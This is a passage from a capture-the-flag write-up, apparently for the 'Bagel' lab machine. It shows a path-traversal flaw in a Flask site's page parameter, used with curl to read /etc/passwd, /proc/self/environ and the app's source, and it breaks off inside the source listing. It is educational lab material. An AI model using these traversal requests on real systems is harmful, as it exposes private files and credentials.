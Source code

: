 We'll begin by investigating port **8000** because a standard HTTP request to port **5000** prompts an error, while port 8000 responds fine.

## Port 8000

When we send a standard GET request to the HTTP server on port 8000, we are redirected to [http://bagel.htb:8000/?page=index.html](http://bagel.htb:8000/?page=index.html). Let's add this hostname to `/etc/hosts`{:.filepath} so we can access the intended site.

```bash
# bryan@attacker
echo 'vhost=("bagel.htb")' >> .env && . ./.env
echo -e "$rhost\\t$vhost" | sudo tee -a /etc/hosts
```
{:.nolineno}

Now we'll visit the site in a browser session that is routed through our local [BurpSuite](https://portswigger.net/burp) proxy.

![Home Page](homepage.png)

The home page doesn't seem to have any useful information on it, but it does have a sketchy way of dynamically loading HTML content. The _page_ parameter is presumably used to fetch a file off of the local filesystem, which could potentially be abused to read sensitive files.

### File Read

It turns out, we can read files outside of our working directory such as `/etc/passwd`{:.filepath}.

```bash
# bryan@attacker
curl "http://bagel.htb:8000/?page=../../../../etc/passwd" # read /etc/passwd
```
{:.nolineno}

Let's read `/proc/self/cmdline`{:.filepath} and `/proc/self/environ`{:.filepath} to learn more about the current process.

```bash
# bryan@attacker
curl "http://bagel.htb:8000/?page=../../../../proc/self/cmdline" -so- | tr \\0 " "
curl "http://bagel.htb:8000/?page=../../../../proc/self/environ" -so- | tr \\0 \\n
```
{:.nolineno}

From the  environment variables, we learn that the current user is _developer_ with the home directory at `/home/developer`{:.filepath}. From the command line arguments, we learn that the web server's source code is at `/home/developer/app/app.py`{:.filepath}. Let's read the app's source to look for a path forward.

```bash
# bryan@attacker
curl "http://bagel.htb:8000/?page=../../../../home/developer/app/app.py" -o app.py
```
{:.nolineno}

```python
from flask import Flask, request, send_file, redirect, Response
import os.path
import websocket,json

app = Flask(__name__)

@app.route('/')
def index():
  if 'page' in request.args:
    page = 'static/'+request.args.get('page')
    if os.path.isfile(page):
      resp=send_file(page)
```